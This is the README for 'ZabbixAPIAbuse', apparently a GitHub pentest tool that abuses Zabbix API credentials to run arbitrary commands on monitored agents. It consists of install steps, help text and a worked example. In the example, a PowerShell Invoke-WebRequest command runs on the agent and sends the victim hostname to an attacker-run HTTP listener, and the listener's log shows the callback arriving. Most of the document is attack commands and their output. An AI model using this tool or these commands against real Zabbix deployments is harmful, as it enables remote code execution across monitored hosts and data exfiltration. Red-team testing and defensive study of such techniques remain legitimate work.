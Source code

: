 # ZabbixAPIAbuse
ZabbixAPIAbuse is an abusing tool for Zabbix API to execute commands on zabbix agents.

## Requirements
```bash
pip3 install -r requirements.txt
```

## Help

```bash
python3 ZabbixAPIAbuse.py -h
usage: ZabbixAPIAbuse.py [-h] --url  -c  -m  -u  -p

Zabbix goes brrrrr

options:
  -h, --help        show this help message and exit
  --url             url to target (Ex : http://192.168.1.1/zabbix/api_jsonrpc.php )
  -c , --cmd        Command to execute
  -m , --method     Method to use (action / item)
  -u , --user       Username of the zabbix user
  -p , --password   Password for the zabbix user
```

## Example
```bash
┌──(zabbix@abuse)-[~]
└─$ ZabbixAPIAbuse.py --url 'http://10.9.10.16/zabbix/api_jsonrpc.php' -c 'powershell -c "Invoke-WebRequest -Uri http://192.168.1.100/$(hostname)"' -m 'item' -u 'admin' -p 'password'

[0]: COMPUTER1
[1]: COMPUTER2
Host num: 0
[0]: 192.168.1.108
Interface num: 0
[*] Waiting for execution ...
[*] Execution done
[*] Items deleted
```

```bash
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
192.168.1.108 - - [11/May/2020 13:36:23] "GET /COMPUTER1 HTTP/1.1" 404 -
```